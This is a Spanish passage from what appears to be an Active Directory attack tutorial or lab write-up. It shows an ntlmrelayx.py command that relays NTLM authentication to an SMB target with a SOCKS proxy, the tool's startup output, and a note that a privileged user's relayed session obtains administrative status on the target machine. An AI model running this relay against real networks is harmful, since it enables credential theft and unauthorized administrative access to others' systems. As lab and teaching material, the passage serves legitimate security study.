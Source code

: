 Seguidamente ejecutamos `ntlmrelayx.py` de la siguiente forma marcando como objetivo la IP del equipo de `ramlux`:

```bash
❯ ntlmrelayx.py -6 -wh 192.168.150.134 -t smb://192.168.150.132 -socks -debug -smb2support
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[+] Protocol Attack IMAP loaded..
[+] Protocol Attack IMAPS loaded..
[+] Protocol Attack RPC loaded..
[+] Protocol Attack LDAP loaded..
[+] Protocol Attack LDAPS loaded..
[+] Protocol Attack SMB loaded..
[+] Protocol Attack HTTP loaded..
[+] Protocol Attack HTTPS loaded..
[+] Protocol Attack DCSYNC loaded..
[+] Protocol Attack MSSQL loaded..
[*] Running in relay mode to single host
[*] SOCKS proxy started. Listening at port 1080
[*] MSSQL Socks Plugin loaded..
[*] SMB Socks Plugin loaded..
[*] HTTP Socks Plugin loaded..
[*] SMTP Socks Plugin loaded..
[*] IMAP Socks Plugin loaded..
[*] IMAPS Socks Plugin loaded..
[*] HTTPS Socks Plugin loaded..
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
 * Serving Flask app 'impacket.examples.ntlmrelayx.servers.socksserver'
 * Debug mode: off
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```

Al tener el usuario `jcampo` privilegios sobre el equipo de `ramlux`, cuando éste acceda a algun recurso a nivel de red observamos como se le asigna `AdminStatus` a `TRUE` en la repuesta de `ntlmrelayx.py`

<img src="/assets/Tips/AD/socks.png">
